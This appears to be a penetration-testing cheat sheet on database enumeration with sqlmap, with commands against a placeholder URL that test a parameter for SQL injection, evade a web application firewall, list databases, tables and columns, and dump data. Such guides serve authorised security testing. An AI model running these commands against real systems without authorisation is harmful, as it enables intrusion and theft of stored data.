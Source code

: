 # Database enumeration

## sqlmap

[sqlmap](https://www.kali.org/tools/sqlmap/) attempts to automatically identify and exploit SQL injection when supplied with a target URL.

Refer to the [wiki](https://github.com/sqlmapproject/sqlmap/wiki/Features) for an exhaustive breakdown of the features.

Examples:

Identify a page in the target web application that displays data and note the URL.

Use a standard HTTP GET based request against a URI with a request parameter (`?id=1`). This will test different SQL injection methods against the `id` parameter.
    
    # sqlmap -u http://urloftargetpage/page.php?id=1

When blocked by a Web Application Firewall (WAF), try using a different user agent with the `--randomagent` parameter.

    # sqlmap -u http://urloftargetpage/page.php?id=1 --random-agent

If SQL injections are successful, the `--dbs` parameter gives information about the database, such as the type of database and the database name.

    sqlmap -u http://urloftargetpage/page.php?id=1 --dbs

List information about tables present in a particular database:

    # sqlmap -u http://urloftargetpage/page.php?id=1 -D <databasename> --tables

List information about the columns of a particular table:

    # sqlmap -u http://urloftargetpage/page.php?id=1 -D <databasename> -T <tablenname> --columns

Dump data:

    # sqlmap -u http://urloftargetpage/page.php?id=1 -D <databasename> -T <tablename> -C <multiple columnnames separated by commas>--dump
